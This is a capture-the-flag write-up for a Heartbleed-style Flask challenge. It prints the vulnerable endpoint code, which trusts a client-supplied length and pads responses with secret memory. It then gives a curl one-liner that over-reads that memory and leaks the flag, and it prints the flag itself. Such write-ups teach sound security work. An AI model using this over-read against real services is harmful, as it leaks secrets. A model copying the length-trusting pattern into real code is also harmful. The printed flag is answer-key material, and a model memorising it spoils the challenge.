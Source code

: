 # Akemi’s Heart

<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## Challenge

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

A Flask app exposes `POST /heartbeat` that echoes your JSON:
```json
{"payload": "hi", "length": 5}
```

It always returns exactly length bytes. If your payload is shorter, it pads with a secret buffer `secret_blob`. That buffer is:

512 random bytes followed by the contents of `/flag.txt`

Code snippet: 

```python
# secret buffer = random junk + flag
secret_blob = secrets.token_bytes(512)
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "rb") as f:
        secret_blob += f.read()

# heartbeat endpoint
data = request.get_json(force=True, silent=True)
payload_bytes = (data.get("payload", "")).encode()
length = int(data.get("length", 0))

extra_needed = length - len(payload_bytes)
if extra_needed <= 0:
    resp = payload_bytes[:length]
else:
    # BUG: trusts client `length`, pads with secret data
    resp = payload_bytes + secret_blob[:extra_needed]
return make_response(resp, 200, {"Content-Type": "application/octet-stream"})
```

## Solution
Exploit the trusted `length`: send a tiny (or empty) `payload` with a large `length`.
The server pads with `secret_blob`, and after the first 512 random bytes, the flag appears.

Notes:

- Any `length > 512 + len(payload)` works (e.g., 1024, 2048, 4096, 8192).
- Filter output for keywords like `GCTF`, `flag`, `ctf`.

```bat
curl -s http://host:port/heartbeat -H "Content-Type: application/json" -d '{"payload":"","length":8192}' | grep -iE "flag|ctf|gctf"
```

## Flag

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```



